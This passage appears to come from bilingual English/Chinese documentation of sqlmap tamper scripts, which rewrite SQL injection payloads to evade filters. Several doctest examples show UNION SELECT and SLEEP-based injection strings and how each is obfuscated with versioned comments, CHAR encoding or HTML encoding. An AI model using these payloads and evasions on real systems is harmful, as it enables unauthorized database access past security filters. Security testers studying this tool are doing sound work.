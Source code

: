```py
>>> tamper('1 AND A > B')
'1 AND GREATEST(A,B+1)=A'
```

### halfversionedmorekeywords.py

> Adds (MySQL) versioned comment before each keyword

在每个关键词前添加(MySQL)的版本注释

Requirement:
* MySQL < 5.1

Tested against:
* MySQL 4.0.18, 5.0.22

```py
>>> tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")
"value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"
```

### hex2char.py

> Replaces each (MySQL) 0x<hex> encoded string with equivalent CONCAT(CHAR(),...) counterpart

用对应的 CONCAT(CHAR(),...) 替换每个 (MySQL)0x<hex> 编码的字符串。

Requirement:
* MySQL

Tested against:
* MySQL 4, 5.0 and 5.5

```py
>>> tamper('SELECT 0xdeadbeef')
'SELECT CONCAT(CHAR(222),CHAR(173),CHAR(190),CHAR(239))'
```

### htmlencode.py

> HTML encode (using code points) all non-alphanumeric characters (e.g. ' -> &#39;)

HTML编码（使用代码点）所有非字母数字字符（例如，`'`-> `&#39;`）。

```py
>>> tamper("1' AND SLEEP(5)#")
'1&#39;&#32;AND&#32;SLEEP&#40;5&#41;&#35;'
```

### ifnull2casewhenisnull.py

> Replaces instances like 'IFNULL(A, B)' with 'CASE WHEN ISNULL(A) THEN (B) ELSE (A) END' counterpart
